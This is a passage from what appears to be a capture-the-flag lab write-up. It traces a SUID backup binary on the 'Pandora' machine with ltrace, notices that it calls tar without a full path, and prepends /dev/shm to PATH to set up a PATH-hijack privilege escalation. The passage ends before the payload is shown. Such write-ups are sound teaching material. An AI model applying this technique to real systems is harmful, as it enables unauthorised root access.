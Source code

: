 #### ltrace

`ltrace` is installed on Pandora, so I'll run `pandora_backup` through
it. This will drop the SUID bit, but I can still see what it's trying to
do:



    matt@pandora:~$ ltrace pandora_backup 
    getuid()                                         = 1000
    geteuid()                                        = 1000
    setreuid(1000, 1000)                             = 0
    puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
    )                = 26
    puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
    )      = 43
    system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
    tar: Error is not recoverable: exiting now
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                           = 512
    puts("Backup failed!\nCheck your permis"...Backup failed!
    Check your permissions!
    )     = 39
    +++ exited (status 1) +++



It crashes because it doesn't have permissions to
`/root/.backup/pandora-backup.tar.gz`, which makes sense since `ltrace`
drops the privs from SUID.

Still, I'll note that it's using `system` to call `tar` without a full
path.

### Shell

Because there's no path given for `tar`, it will use the current user's
`PATH` environment variable to look for valid executables to run. But I
can control that path, which makes this likely vulnerable to path
hijack.

I'll work from `/dev/shm`, and add that to the current user's `PATH`:



    matt@pandora:/dev/shm$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
    matt@pandora:/dev/shm$ export PATH=/dev/shm:$PATH
    matt@pandora:/dev/shm$ echo $PATH
    /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin



Now the first place it will look for `tar` is `/dev/shm`.
